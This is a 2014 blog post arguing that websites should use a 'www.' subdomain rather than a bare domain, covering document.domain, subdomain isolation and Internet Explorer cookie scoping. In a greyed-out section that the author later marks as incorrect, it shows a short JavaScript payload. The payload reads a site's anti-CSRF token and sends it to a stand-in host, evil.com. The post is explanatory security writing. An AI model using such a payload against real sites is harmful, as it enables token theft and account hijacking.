 ```yaml
---
id: 194
title: 'Why you need a &#8216;www.&#8217;'
date: 2014-04-03T21:20:56+00:00
author: jsha
layout: post
guid: https://jacob.hoffman-andrews.com/README/?p=194
permalink: /why-you-need-a-www/
categories:
  - Uncategorized
---
```

In the early days of the internet, we named our world wide webservers &#8216;www&#8217; to distinguish them from, say, our ftp and gopher servers. Since then, the web has become the main way most people interact with the Internet, and it has started to become fashionable to omit the &#8216;www.&#8217; Sites like twitter.com and medium.com are making a statement about the modern web, and many people feel that &#8216;www&#8217; on a web site is old-fashioned and redundant.

However, for a couple of technological reasons that cropped up during the development of the web, serving your website from &#8216;www&#8217; is still advisable. If you choose to serve your site from a _bare domain_ like twitter.com, it will be harder to deal with [XSS](http://blog.codinghorror.com/protecting-your-cookies-httponly/) and you may be subject to cookie stealing. If you look around, you&#8217;ll notice that most large, web-centric technology companies use the &#8216;www,&#8217; like www.google.com, www.amazon.com, and www.facebook.com for this and other reasons.

First, assume that you will eventually implement subdomains for specific things, like support.example.com, api.example.com, beta.example.com, or blog.example.com. If you have an early-stage startup, it may seem like you&#8217;ll never need to break things out into subdomains, but if you are successful at all, you will want to use subdomains very soon.

## Subdomain Isolation

Subdomains are great because code on blog.example.com can&#8217;t access data from support.example.com. This is called the [Same-origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) and is fundamental to the security model of the web. It&#8217;s the same reason www.amazon.com can&#8217;t use Javascript to retrieve your email from mail.google.com. However, there&#8217;s a useful exception. If blog.example.com specifically wants to share data with support.example.com, it can use Javascript to set document.domain=&#8217;example.com&#8217;. The document.domain property can be set to any parent domain of the current domain, and allows any two documents that have the same document.domain to execute script in each others&#8217; context and access each others&#8217; DOM. If there&#8217;s a page on support.example.com that also sets document.domain=&#8217;example.com&#8217;, then blog.example.com can load that page in an iframe, and since the browser now considers them to have the same origin, each can run script in the context of the other and access the other&#8217;s data.

This is useful when you want it, but in general you don&#8217;t want blog.example.com to be able to share data with support.example.com. If there&#8217;s an XSS attack that affects blog.example.com, you don&#8217;t want it to also affect support.example.com, or the attacker would be able to get at your users&#8217; sensitive support tickets.

<div style="border: 1px solid red; padding: 0.5em">
  EDIT: <a href="https://twitter.com/NealPoole/status/451964029313888256">Neal Poole</a> and <a href="https://jacob.hoffman-andrews.com/README/why-you-need-a-www/#comment-2622">Eric Lawrence</a> point out that I was wrong about the part below: a page on the bare domain would also need to set document.domain. If you don&#8217;t set document.domain on your bare domain, you&#8217;re safe from this particular threat. I&#8217;ve greyed out the section so you can still what it originally said, but consider it incorrect.
</div></p> 

<div style="color: lightgrey">
  However, if the user-facing part of your site is example.com, then any of your subdomains— blog.example.com, support.example.com, etc.— can set document.domain=&#8217;example.com&#8217;. That means that an attacker script can do the same thing. That, in turn, means that what could be a minor XSS in your blogging platform or support site turns into an XSS on your entire site. In practice, this means attackers reading users&#8217; private messages, sending out self-propagating attack links from your users&#8217; accounts, and you getting paged in the middle of the night to deal with it.</p> 
  
  <p>
    An example attack payload that would run on support.example.com to steal the anti-CSRF token from the main domain might look something like this:
  </p>
  
  <pre>
var w = window.open("https://example.com");
var csrftoken = w.document.forms[0].childNodes[1].value;
new Image().src = "https://evil.com/log.png?csrftoken=" + csrftoken;
</pre>
  
  <p>
    In practice an attacker would wrap this in the necessary code to exploit an XSS vulnerability on the subdomain. In the worst case, the attackers could also steal the users&#8217; authentication cookies, but you&#8217;re <a href="http://blog.codinghorror.com/protecting-your-cookies-httponly/">already setting the HttpOnly and secure flags, right</a>?
  </p>
  
  <p>
    Even if you write all the code and operate all the servers for your subdomains, isolating major bugs like XSS is very valuable to limit damage in an (inevitable) attack. When you point subdomains at a third-party server, or contract someone else to write code that you&#8217;ll host on a subdomain, the need for isolation becomes even more clear. The fix is simple: If the user-facing part of your site is hosted on www.example.com, you&#8217;re safe from all the bugs except the ones you wrote yourself.
  </p>
</div>

## Cookie Isolation

When you host your site on example.com, you ideally to set an authentication cookie that gets sent to &#8216;example.com&#8217; and not any subdomains. It turns out it&#8217;s impossible to do this in a cross-browser way. On most browsers, sending a Set-Cookie header without a domain field will do the trick. However, [Internet Explorer differs on this point, and will send the cookie to all subdomains](http://blogs.msdn.com/b/ieinternals/archive/2009/08/20/wininet-ie-cookie-internals-faq.aspx) (see Q3).

This means that if you host on a bare domain, you&#8217;re sending your users&#8217; authentication cookies (the keys to the kingdom) to every subdomain. When you host all subdomains yourself, this is not a big deal, but once a subdomain is operated by a third party like a blogging platform or a CDN, this puts your users at unnecessary risk. If your user-facing site is www.example.com, then all cookies will by default be scoped to www.example.com on non-IE browsers, and *.www.example.com on IE. Since you&#8217;re probably not hosting anything at foo.www.example.com, you won&#8217;t be sending authentication cookies to any third party.

## Hard to Fix Later

It&#8217;s tempting to leave the switch for later, and say &#8220;We&#8217;ll add a www and a redirect once we start having subdomains.&#8221; But by the time you come back to make the change, there will be links to your site all over the web, plus internal links, and none of them point to the new \`www.&#8217; version of your site. Redirecting users when they click those links costs extra latency. It&#8217;s better to just make the call at the beginning.

## Conclusion

User-facing websites should always use \`www.&#8217; It may not be cool, but it&#8217;s safer.